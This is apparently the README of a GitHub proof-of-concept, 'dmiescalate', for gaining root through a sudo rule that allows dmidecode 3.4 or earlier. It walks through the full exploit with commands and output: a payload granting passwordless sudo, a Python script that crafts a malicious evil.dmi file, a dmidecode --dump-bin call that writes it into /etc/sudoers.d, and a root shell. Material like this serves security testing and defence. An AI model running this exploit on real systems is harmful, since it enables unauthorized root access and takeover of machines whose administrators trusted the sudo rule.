 # dmiescalate

> Privilege escalation using dmidecode on BIOS and UEFI systems.

Inspired by: https://github.com/adamreiser/dmiwrite

Supported dmidecode versions: <= 3.4

## Background
I recently ran into the following issue trying to escalate privileges via `dmidecode` sudo rule using [dmiwrite](https://github.com/adamreiser/dmiwrite):
```bash
$ sudo dmidecode --no-sysfs -d evil.dmi --dump-bin /etc/sudoers.d/pwn
# dmidecode 3.4
# SMBIOS entry point at 0x0efc2000
Found SMBIOS entry point in EFI, reading table from evil.dmi.
mmap: Can't map beyond end of file evil.dmi
```
Due to the presence of `/sys/firmware/efi/systab` on the system `dmidecode` didn't seem to take the paths expected by `dmiwrite`. As a result the crafted `evil.dmi` failed us.
This poc is capable of handling both BIOS and UEFI systems. Set `OFFSET` and `END_PAD` accordingly.

## Usage Example

> Note: The file write always outputs some garbage bytes first. Make sure to add a newline at the beginning of the payload.

Prepare payload:
```bash
$ echo "\nkali ALL=(ALL:ALL) NOPASSWD: ALL" > payload
```
Create `evil.dmi`:
```bash
$ python poc.py payload evil.dmi
Using offset: 0xefc2000
Using end padding size: 0x0
Read 34 bytes from payload file payload
SM:  5F 53 4D 5F 00 1F 02 01 00 00 00 00 00 00 00 80
DMI: 5F 44 4D 49 5F 00 22 00 00 00 00 00 01 00 45 00
Writing 251404320 bytes to evil.dmi
Done!
```
Run `dmidecode`:
```bash
$ sudo dmidecode --no-sysfs -d evil.dmi --dump-bin /etc/sudoers.d/pwn
# dmidecode 3.4
# SMBIOS entry point at 0x0efc2000
Found SMBIOS entry point in EFI, reading table from evil.dmi.
SMBIOS 2.1 present.
1 structures occupying 34 bytes.
Table at 0x00000000.

# Writing 34 bytes to /etc/sudoers.d/pwn.
# Writing 31 bytes to /etc/sudoers.d/pwn.
```
Escalate:
```bash
$ sudo su
/etc/sudoers.d/pwn:1:5: syntax error
_SM_
   ^
$ id
uid=0(root) gid=0(root) groups=0(root)
```

